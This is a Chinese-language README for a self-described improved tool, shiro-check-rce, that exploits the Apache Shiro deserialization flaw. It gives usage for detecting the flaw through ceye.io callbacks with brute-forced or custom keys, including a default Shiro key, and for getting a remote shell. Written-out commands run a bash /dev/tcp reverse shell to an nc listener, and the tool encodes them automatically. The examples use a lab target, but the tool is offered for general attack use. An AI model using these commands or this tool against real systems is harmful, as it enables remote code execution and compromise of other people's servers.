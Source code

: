 # 0x00 前言

最近在做shiro反序列化漏洞复现，从网上也找了一堆复现文章和工具，但是这些工具用着都不太舒服，于是参考网上大佬们的工具，自己进行了一些简单的改良。

# 0x01 工具安装

本工具需要 Python3 和 Java 环境，下载本工具后，将文件解压，在本项目目录下运行下面的命令，安装Python第三方库即可。

```
pip3 install -r requirements.txt
```
国外下载地址：https://github.com/teamssix/shiro-check-rce/releases/

国内下载地址：https://gitee.com/teamssix/shiro-check-rce/releases

# 0x02 工具介绍

```
   _____ __    _               ________              __      ____  ____________
  / ___// /_  (_)________     / ____/ /_  ___  _____/ /__   / __ \/ ____/ ____/
  \__ \/ __ \/ / ___/ __ \   / /   / __ \/ _ \/ ___/ //_/  / /_/ / /   / __/   
 ___/ / / / / / /  / /_/ /  / /___/ / / /  __/ /__/ ,<    / _, _/ /___/ /___   
/____/_/ /_/_/_/   \____/   \____/_/ /_/\___/\___/_/|_|  /_/ |_|\____/_____/   By TeamsSix

我的个人博客：teamssix.com
我的个人公众号：TeamsSix

-c ：输入要执行的命令
-h ：查看帮助
-k : 输入自定义的key，不输入此参数时将遍历尝试默认key
-t ：输入你的ceye.io的token，用于检测shiro漏洞是否存在，此选项需要配合 -c "ping your.ceye.io" 使用
-u ：指定URL

python3 shiro-check-rce.py (-c) <command> [-h] [-k] <key> [-t] <token> (-u) <url>
```

## 1、漏洞检测

该功能需要你有一个[http://ceye.io/](http://ceye.io/)的账号，在[http://ceye.io/profile](http://ceye.io/profile)页面，找到自己的`Identifier`值和`API Token`值。

使用 -t 和 -c 参数配合使用，即可调用默认key字典进行检测.

> 文中的 http://192.168.175.146:8080/ 为本地靶机，192.168.175.152:9527 为 nc 监听地址。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6
```

![](./images/shiro-check-rce-1.png)

如果你有自己的key，也可以使用 -k 参数进行指定。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token} -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6 -k kPH+bIxk5D2deZiIxcaaaA==
```

![](./images/shiro-check-rce-2.png)

## 2、反弹shell

这里我采用bash命令反弹到本地nc监听端口的方式，因此我这里需要先在本地建立一个 nc 监听端口。

```
nc -lvvp 9527
```

之后，执行反弹shell命令

```
bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1

示例：bash -i >& /dev/tcp/192.168.175.152/9527 0>&1
```

本工具会对输入命令进行识别，如果检测到用户输入了bash反弹shell命令，将会自动对命令进行编码，无需自己编码，避免了明明存在漏洞却因为编码问题而反弹不了shell的尴尬。

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1"

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1"
```

![](./images/shiro-check-rce-3.gif)

如果知道key的话，就直接 -k 指定 key 即可

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1" -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1" -k kPH+bIxk5D2deZiIxcaaaA==
```

![](./images/shiro-check-rce-4.gif)

# 0x03 注意事项

* 本程序需要 python3 环境以及 java环境
* 在进行漏洞检测时，-c 指定 ping 的 URL 和 -t 指定的 token 需要是同一 ceye 账户的。
* 在安装`pycryptodome`库时，可能会碰到一些问题，可以根据报错信息进行排查，或者到网上找寻相关资料


![](https://teamssix.oss-cn-hangzhou.aliyuncs.com/TeamsSix_Subscription_Logo2.png)

